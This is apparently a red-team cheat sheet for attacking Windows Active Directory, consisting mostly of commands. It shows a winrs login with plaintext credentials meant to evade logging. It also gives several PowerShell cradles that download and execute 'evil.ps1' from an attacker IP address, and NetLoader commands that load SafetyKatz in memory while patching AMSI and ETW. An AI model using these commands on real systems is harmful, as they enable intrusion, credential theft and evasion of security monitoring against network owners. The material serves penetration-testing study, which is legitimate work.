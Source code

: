 ##############################################################

# When looking for domain admins you should always check the SID if the last three digits are 500, because someone might have renamed him. On the other hand on a non-domain machine when you are not local admin, you cant find that if they are renamed.


# We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname

# Load a PowerShell script using dot sourcing
`. C:\AD\Tools\PowerView.ps1`
# A module (or a script) can be imported with:
` Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1`
# All the commands in a module can be listed with:
`Get-Command -Module <modulename>`
# Download execute cradle
`iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')`
`$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1
');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response`

`iex (iwr 'http://192.168.230.1/evil.ps1')`

`$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
`
`$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()`

# (https://github.com/Flangvik/NetLoader) to deliver our binary payloads. It can be used to load binary from filepath or URL and patch AMSI & ETW while executing.
`C:\Users\Public\Loader.exe -path http://192.168.100.X/SafetyKatz.exe`
# We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL.
C:\Users\Public\AssemblyLoad.exe http://192.168.100.X/Loader.exe -path http://192.168.100.X/SafetyKatz.exe
